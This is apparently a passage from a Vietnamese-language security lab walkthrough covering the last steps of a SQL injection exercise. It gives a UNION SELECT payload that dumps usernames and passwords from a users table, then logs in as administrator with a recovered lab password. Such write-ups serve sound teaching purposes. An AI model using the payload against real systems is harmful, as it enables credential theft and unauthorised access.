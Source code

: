 **Bước 3: Lấy dữ liệu từ bảng users**
```
' UNION SELECT username, password FROM users--
```
<img width="1919" height="929" alt="image" src="https://github.com/user-attachments/assets/f59b83bd-7dbb-44e6-9107-9dd6c55bd029" />
<img width="1858" height="982" alt="image" src="https://github.com/user-attachments/assets/9e3b4a48-7d09-4000-9b45-f568b2d8489a" />
>  Trang web sẽ hiển thị tài khoản và mật khẩu.

**Bước 4: Đăng nhập với tài khoản administrator**
- Tài khoản: administrator
- Password: xi26qgvs02yq3aoj2etq

<img width="1859" height="921" alt="image" src="https://github.com/user-attachments/assets/ac6dc309-a497-40e1-8c28-881d3bd08db0" />
> Đăng nhập thành công
